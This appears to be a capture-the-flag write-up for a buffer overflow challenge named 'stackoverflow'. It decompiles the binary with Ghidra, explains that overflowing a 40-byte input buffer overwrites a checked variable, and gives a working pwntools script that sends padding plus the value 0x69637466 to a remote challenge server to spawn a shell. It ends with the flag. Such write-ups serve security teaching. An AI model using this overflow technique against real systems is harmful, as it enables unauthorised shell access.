


Welcome to Stack Overflow! Get answers to all your programming questions right here!
Provided binary for decompilation
We use ghidra to decompile the binary.
stackoverflow
From the code we can see that we are prompted for our favourite color. This value is pushed to a variable local_38 which has 40 bytes of memory allocated. Then there is a check if a variable local_10 is of value 0x69637466 and if yes, we get a shell. From the code there is no way to control this value. We can however overflow our input buffer and overwrite the memory of this variable.
We use pwntools to interact with the remote server. We send 40 As followed by the required hex value to spawn a shell.
from pwn import *
r = remote('chal.imaginaryctf.org', 42001)
r.recvline()
a = p32(0x69637466)
s = b'A'*40 + a + b'\r\n'
r.send(s)
r.interactive()

ictf{4nd_th4t_1s_why_y0u_ch3ck_1nput_l3ngth5_486b39aa}